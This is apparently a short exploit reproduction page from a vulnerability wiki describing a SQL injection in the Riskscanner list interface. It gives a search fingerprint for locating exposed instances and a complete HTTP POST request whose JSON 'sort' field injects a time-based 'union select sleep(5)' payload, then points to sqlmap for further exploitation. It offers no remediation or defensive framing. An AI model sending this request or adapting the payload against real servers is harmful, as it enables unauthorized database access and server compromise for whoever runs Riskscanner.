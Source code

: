 # Riskscanner list SQL injection vulnerability

## Vulnerability Description

The Riskscanner list interface has a SQL injection vulnerability, and server permissions can be obtained through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Riskscanner</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Riskscanner"</span>

## Vulnerability reappears

Login page



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718204906366.png)



Send vulnerability request packets

```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718204929186.png)



Using the tool Sqlmap

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718204944301.png)